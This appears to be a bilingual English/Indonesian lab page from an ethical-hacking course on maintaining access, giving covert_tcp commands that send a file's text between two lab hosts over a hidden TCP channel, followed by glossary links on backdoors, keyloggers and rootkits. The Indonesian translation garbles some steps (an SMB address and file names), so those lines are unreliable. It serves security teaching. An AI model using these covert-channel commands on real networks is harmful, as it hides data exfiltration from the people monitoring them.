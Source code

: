 # Bagian 03: Maintaining Access/Mempertahankan Akses

*Lab3-Task6: Covert Channels using Covert\_TCP/Saluran Terselubung menggunakan Terselubung\_TCP**


- **Attacker:**
  - cd Desktop
  - mkdir Send
  - cd Send
  - echo &quot;Secret&quot;->message.txt
  - Place->Network
  - Ctrl+L
  - **smb://[IP]**
  - Account &amp; Password
  - copy and paste covert\_tcp.c
  - **cc -o covert\_tcp covert\_tcp.c**
- **Target:**
  - **tcpdump -nvvx port 8888 -I lo**
  - cd Desktop
  - mkdir Receive
  - cd Receive
  - File->Ctrl+L
  - smb://[IP]
  - copy and paste covert\_tcp.c
  - cc -o covert\_tcp covert\_tcp.c
  - **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 9999 -dest\_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
  - **Tcpdump captures no packets**
- **Attacker**
  - **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 8888 -dest\_port 9999 -file /home/attacker/Desktop/send/message.txt**
  - Wireshark (message string being send in individual packet)

  ---------------------------------------
  atau mungkin saya tulis dengan bahasa indonesia agar mudah di pahami:

- **Penyerang:**
 - CD Desktop
 - mkdir Kirim
 - cd Kirim
 - echo &quot;Rahasia&quot;->message.txt
 - Tempat->Jaringan
 - Ctrl+L
 - **seseorang://[IP]**
 - Akun &amp; Kata sandi
 - salin dan tempel secara rahasia\_tcp.c
 - **cc -o rahasia\_tcp rahasia\_tcp.c**
- **Target:**
 - **tcpdump -nvvx port 8888 -I lo**
 - CD Desktop
 - mkdir Terima
 - cd Terima
 - File->Ctrl+L
 - seseorang://[IP]
 - salin dan tempel secara rahasia\_tcp.c
 - cc -o rahasia\_tcp rahasia\_tcp.c
 - **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 9999 -dest\_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
 - **Tcpdump tidak menangkap paket**
- **Penyerang**
 - **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 8888 -dest\_port 9999 -file /home/penyerang/Desktop/send/message.txt**
 - Wireshark (string pesan dikirim dalam paket individual)
==================== =======

## Maintaining Access/Mempertahankan Akses

Backdoor/Pintu belakang

[Definisi](../definitions/definitions_B.md#backdoor)

Keylogger / Keystroke logger/

Pencatat kunci / pencatat penekanan tombol

[Definisi](../definitions/definitions_K.md#keylogger)

Spyware/Perangkat mata-mata

[Definisi](../definitions/definitions_S.md#spyware)

Rootkit/perangkat root

[Definisi](../definitions/definitions_R.md#rootkit)

Steganography/Steganografi

[Definisi](../definitions/definitions_S.md#steganografi)

